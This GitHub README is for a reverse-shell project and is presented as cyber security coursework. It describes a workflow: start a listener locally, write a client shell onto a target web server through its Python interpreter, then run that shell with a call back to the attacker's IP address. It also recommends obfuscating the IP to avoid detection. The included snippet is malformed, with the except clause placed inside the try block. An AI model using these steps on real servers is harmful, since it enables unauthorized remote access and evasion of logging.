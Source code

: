 
# Remote-Python-Interpreter a.k.a glowing-fishstick

This project was started as a result of Cyber Security studies, created purely for testing purposes to demonstrate ability to access web servers with python interpreters and read/write access.

## Server side listener

First run `serverListener.py` locally to ensure you have the listener ready, the connection cannot be made unless this is running first.

```python serverListener.py```

## Write the client side python file remotely

You then can run `pythonWriter.py` using the target web servers python interpreter window. This will only work if the web server is set up to allow write access.

This script will create the `clientShell.py` file on the remote server.

## Executing the client shell

When the server is running locally and the client shell python script is created you can use the python interpreter to execute the python file, substituting the <IP_ADDRESS> value with your IP address.

Note: depending on the servers setup, it may record the IP address used and any other inputs made, so best to use obfuscation techniques when providing an IP address.

```
import subprocess  

# Define the command to run your Python script
command = "python clientShell.py <IP_ADDRESS>"

# Use subprocess to run the command
try:
	subprocess.run(command, shell=True, check=True)
	except subprocess.CalledProcessError as e:
		print(f"Error: {e}")
```

# Credit

Original credit: https://thepythoncode.com/article/create-reverse-shell-python